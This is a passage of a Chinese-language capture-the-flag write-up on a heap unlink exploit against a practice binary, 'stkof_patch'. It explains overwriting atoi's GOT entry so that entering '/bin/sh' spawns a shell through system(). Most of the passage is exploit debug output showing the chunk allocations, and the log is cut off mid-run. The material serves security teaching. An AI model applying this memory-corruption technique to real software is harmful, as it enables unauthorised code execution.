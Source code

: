 再次根据上面的payload修改s[2]：主界面–> 2–> 2–> payload

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1601195372045-7bdbb94b-c535-4fd4-a38e-0ad73f2e1d1c.png)

最后我们在等待输入的时候输入/bin/sh字符串的地址就可以了，看起来是`atoi("/bin/sh")`，但实际上执行的是`system("/bin/sh")`

# exp详细执行信息
```powershell
➜  unlink_data python exp.py 
[DEBUG] PLT 0x1f7f0 realloc
[DEBUG] PLT 0x1f800 __tls_get_addr
[DEBUG] PLT 0x1f820 memalign
[DEBUG] PLT 0x1f850 _dl_find_dso_for_object
[DEBUG] PLT 0x1f870 calloc
[DEBUG] PLT 0x1f8a0 malloc
[DEBUG] PLT 0x1f8a8 free
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] PLT 0x400750 free
[DEBUG] PLT 0x400760 puts
[DEBUG] PLT 0x400770 fread
[DEBUG] PLT 0x400780 strlen
[DEBUG] PLT 0x400790 __stack_chk_fail
[DEBUG] PLT 0x4007a0 printf
[DEBUG] PLT 0x4007b0 alarm
[DEBUG] PLT 0x4007c0 __libc_start_main
[DEBUG] PLT 0x4007d0 fgets
[DEBUG] PLT 0x4007e0 atoll
[DEBUG] PLT 0x4007f0 __gmon_start__
[DEBUG] PLT 0x400800 malloc
[DEBUG] PLT 0x400810 fflush
[DEBUG] PLT 0x400820 atol
[DEBUG] PLT 0x400830 atoi
[*] '/home/ubuntu/Desktop/unlink_data/stkof_patch'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './stkof_patch' argv=['./stkof_patch'] : pid 16904
[*] Creating chunk1, avoid stdout's buffer.
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0x4 bytes:
    '256\n'
[DEBUG] Received 0x5 bytes:
    '1\n'
    'OK\n'
[*] Creating chunk2...
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0x3 bytes:
    '48\n'
[DEBUG] Received 0x5 bytes:
    '2\n'
    'OK\n'
[*] Creating chunk3...
[DEBUG] Sent 0x2 bytes:
    '1\n'
```
